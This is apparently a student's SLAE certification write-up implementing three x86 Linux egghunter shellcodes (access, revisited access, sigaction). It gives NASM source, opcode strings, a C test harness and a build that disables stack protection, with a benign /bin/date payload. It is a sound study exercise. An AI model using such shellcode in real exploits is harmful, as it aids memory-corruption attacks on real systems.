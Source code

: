# Note

This MD file has been created for the SecurityTube Linux Assembly Expert certification (https://www.pentesteracademy.com/course?id=3). Student ID: 1483.

# Egghunter

The first step is to study about egghunter. A very nice document with optimised examples is available: http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf 

In this assignment, three examples will be implemented following the same way.

## Final payload

The final payload is an execve shellcode calling /bin/date program. The idea will be to put the final shellcode between many "a" in order to increase the search. It will look like that: *\x61\x61\x61...EGG...SHELLCODE...\x61\x61\x61*.

### Execve Date

Based on examples from the course, an execve shellcode calling date can be easily done:

```ASM
global _start

section .text

_start:
 xor eax, eax
 push eax

 push 0x65746164 ;date
 push 0x2f6e6962 ;bin/
 push 0x2f2f2f2f ;////

 mov ebx, esp

 push eax
 mov edx, esp

 push ebx
 mov ecx, esp

 mov al, 11
 int 0x80
```
### shellcode.c

```
$ echo $(python3 -c 'a=("\\x%0.2x" % 97);print(a*2500)')$(echo \\x90\\x50\\x90\\x50\\x90\\x50\\x90\\x50)$(bash ../get-shellcode.sh execve-date |cut -d\" -f 2)$(python3 -c 'a=("\\x%0.2x" % 97);print(a*2500)')
```

The test program will be base on shellcode.c:

```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = "INSERT EGGHUTER";
main()
{
 unsigned char memory_space[] = "\x61\x61\x61...\x90\x50\x90\x50\x90\x50\x90\x50\x31\xc0\x50\x68\x64\x61\x74\x65\x68\x62\x69\x6e\x2f\x68\x2f\x2f\x2f\x2f\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80...\x61\x61\x61";
 printf("Shellcode Length:  %d\n", strlen(code));

 int (*ret)() = (int(*)())code;
 ret();
}
```
## access(2)

The shellcode is converted for nasm:
```ASM
global _start

section .text

_start:
 mov ebx, 0x50905090 ;the egg
 xor ecx, ecx ;ecx to 0
 mul ecx ;eax and edx to 0

 page_alignment:
  or dx,0xfff
 next_page:
  inc edx

 pusha ;save registers
 lea ebx, [edx+0x4]
 mov al, 0x21 ;#define __NR_access 33
 int 0x80 ;syscall
 cmp al, 0xf2 ;EFAULT return value
 popa ;backup registers
 jz page_alignment
 cmp [edx],ebx ;check for egg 1/2
 jnz next_page
 cmp [edx+0x4],ebx ;check for egg 2/2
 jnz next_page
 jmp edx ;call final shellcode
```

It is extracted in order to be inserted into the *shellcode.c* file (as the file contents many a, it will not be displayed here.
```
$ bash ../get-shellcode.sh access2
"\xbb\x90\x50\x90\x50\x31\xc9\xf7\xe1\x66\x81\xca\xff\x0f\x42\x60\x8d\x5a\x04\xb0\x21\xcd\x80\x3c\xf2\x61\x74\xed\x39\x1a\x75\xee\x39\x5a\x04\x75\xe9\xff\xe2"
```

After compilation, our final shellcode is immidiatly executed:

```
$ gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
$ date && ./shellcode 
lundi 24 février 2020, 15:02:23 (UTC+0100)
Shellcode Length:  39
Mon Feb 24 15:02:23 CET 2020
```

## access(2) revisited

The shellcode is converted for nasm:
```ASM
global _start

section .text

_start:
 xor edx,edx ;edx to 0
page_alignment:
 or dx,0xfff
next_page:
 inc edx
 lea ebx,[edx+0x4]
 push byte +0x21 ;#define __NR_access 33
 pop eax
 int 0x80 ;syscall
 cmp al,0xf2 ;EFAULT return value
 jz page_alignment
 mov eax,0x50905090 ;the egg
 mov edi,edx
 scasd ;check for egg 1/2
 jnz next_page
 scasd ;check for egg 2/2
 jnz next_page
 jmp edi ;call final shellcode
```

It is extracted in order to be inserted into the *shellcode.c* file (as the file contents many a, it will not be displayed here.
```
$ bash ../get-shellcode.sh access2revisited
"\x31\xd2\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\x6a\x21\x58\xcd\x80\x3c\xf2\x74\xee\xb8\x90\x50\x90\x50\x89\xd7\xaf\x75\xe9\xaf\x75\xe6\xff\xe7"
```

After compilation, our final shellcode is immidiatly executed:

```
$ gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
$ date && ./shellcode 
lundi 24 février 2020, 21:00:39 (UTC+0100)
Shellcode Length:  35
Mon Feb 24 21:00:39 CET 2020
```

## sigaction(2)

The shellcode is converted for nasm:
```ASM
global _start

section .text

_start:
 or cx,0xfff
 next_page:
  inc ecx
 push byte +0x43 ; #define __NR_sigaction 67
 pop eax
 int 0x80 ;syscall
 cmp al,0xf2 ;EFAULT return value
 jz _start
 mov eax,0x50905090 ;the egg
 mov edi,ecx
 scasd ;check for egg 1/2
 jnz next_page
 scasd ;check for egg 2/2
 jnz next_page
 jmp edi ;call final shellcode
```

It is extracted in order to be inserted into the *shellcode.c* file (as the file contents many a, it will not be displayed here.
```
$ bash ../get-shellcode.sh sigaction
"\x66\x81\xc9\xff\x0f\x41\x6a\x43\x58\xcd\x80\x3c\xf2\x74\xf1\xb8\x90\x50\x90\x50\x89\xcf\xaf\x75\xec\xaf\x75\xe9\xff\xe7"
```

After compilation, our final shellcode is immidiatly executed:

```
$ gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
$ date && ./shellcode 
lundi 24 février 2020, 21:04:42 (UTC+0100)
Shellcode Length:  30
Mon Feb 24 21:04:42 CET 2020
```

## Final check

In order to be sure that this is the egghunter which is executed, a simple //strace// can be used. A sample of the output of the last egghunter is put below:

```
sigaction(SIG_0, {...}, NULL, 0x43)     = -1 EFAULT (Bad address)
sigaction(SIG_0, {...}, NULL, 0x43)     = -1 EFAULT (Bad address)
sigaction(SIG_0, {...}, NULL, 0x43)     = -1 EFAULT (Bad address)
sigaction(SIG_0, {...}, NULL, 0x43)     = -1 EFAULT (Bad address)
sigaction(SIG_0, {...}, NULL, 0x43)     = -1 EFAULT (Bad address)
sigaction(SIG_0, {...}, NULL, 0x43)     = -1 EFAULT (Bad address)
sigaction(SIG_0, {...}, NULL, 0x43)     = -1 EFAULT (Bad address)
sigaction(SIG_0, {...}, NULL, 0x43)     = -1 EFAULT (Bad address)
sigaction(SIG_0, {...}, NULL, 0x43)     = -1 EFAULT (Bad address)
sigaction(SIG_0, {...}, NULL, 0x43)     = -1 EFAULT (Bad address)
sigaction(SIG_0, {...}, NULL, 0x43)     = -1 EFAULT (Bad address)
sigaction(SIG_0, {...}, NULL, 0x43)     = -1 EFAULT (Bad address)
sigaction(SIG_0, {...}, NULL, 0x43)     = -1 EFAULT (Bad address)
sigaction(SIG_0, {...}, NULL, 0x43)     = -1 EFAULT (Bad address)
sigaction(SIG_0, {...}, NULL, 0x43)     = -1 EFAULT (Bad address)
sigaction(SIG_0, {...}, NULL, 0x43)     = -1 EFAULT (Bad address)
```
